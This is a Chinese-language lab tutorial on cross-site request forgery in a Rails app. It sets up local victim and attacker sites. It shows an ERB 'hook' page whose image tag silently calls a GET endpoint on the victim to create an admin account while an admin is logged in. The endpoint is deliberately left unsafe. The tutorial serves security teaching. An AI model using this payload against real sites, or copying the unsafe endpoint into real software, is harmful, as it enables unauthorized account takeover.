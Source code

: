 ~~~bash

cd ~/workspace
cp -r websafe websafe-csrf-victim
cp -r websafe websafe-csrf-attacker

$ cd ~/.pow
ln -s ~/workspace/websafe-csrf-victim
ln -s ~/workspace/websafe-csrf-attacker

~~~

此时我们就已经建立好了两个用于试验的站点了.

#### 用例1

站点 V(在此试验中可以通过 'websafe-csrf-victim.dev' 访问站点 V, 在后面的描述中，站点 V 即代表
'websafe-csrf-victim.dev'), 有一个地址: '/csrf/admin/admin_user/unsafe_create' 可以用于创建管理员，
访问此地址的请求目前是支持 GET 方法的，比如可以 GET 请求 'http://websafe-csrf-victim.dev/csrf/admin/admin\_user/unsafe\_create?admin%5Blogin%5D=admin002&admin%5Bpassword%5D=111111'
来创建一个帐号为 'admin002', 密码为 '111111' 的管理员, 虽然创建管理员之前会做用户认证，但是攻击者通过在站点 A(在此试验中可以通过 'websafe-csrf-attacker.dev' 访问站点 A, 在后面的描述中，站点 A 即代表
'websafe-csrf-attacker.dev') 上创建一个叫 hook 的页面来进行 **CSRF** 从而绕过站点 V 的验证来创建管理员。

hook 页面的url: 'http://websafe-csrf-attacker.dev/csrf/attacker/hook'

hook 页面的内容:

~~~erb
<h2>攻击者在这个页面发起 CSRF 攻击</h2>

<p>下面这个 image 标签会创建一个叫 "admin002", 密码为 "111111" 的管理员</p>
<%= image_tag "http://websafe-csrf-victim.dev/csrf/admin/admin_user/unsafe_create?admin%5Blogin%5D=admin002&admin%5Bpassword%5D=111111" %>

~~~

站点 V 有一个初始的管理员, 帐号是 'admin', 密码是 'verycomplex', 可以执行 `bundle exec rake seed:admin_user` 创建这个初始管理员。当 'admin' 成功登录站点 V 后，如果 'admin' 使用同一浏览器访问
'http://websafe-csrf-attacker.dev/csrf/attacker/hook' 后, 站点 V 会在 'admin' 没有察觉的情况下增加一个新的管理员,

![csrf attacker hook](/images/csrf-attacker-hook.png)

~~~ruby
AdminUser.count #=> 2
AdminUser.last #=> #<AdminUser id: 7, login: "admin002", password: "111111", created_at: "2014-10-19 15:38:18", updated_at: "2014-10-19 15:38:18">
~~~
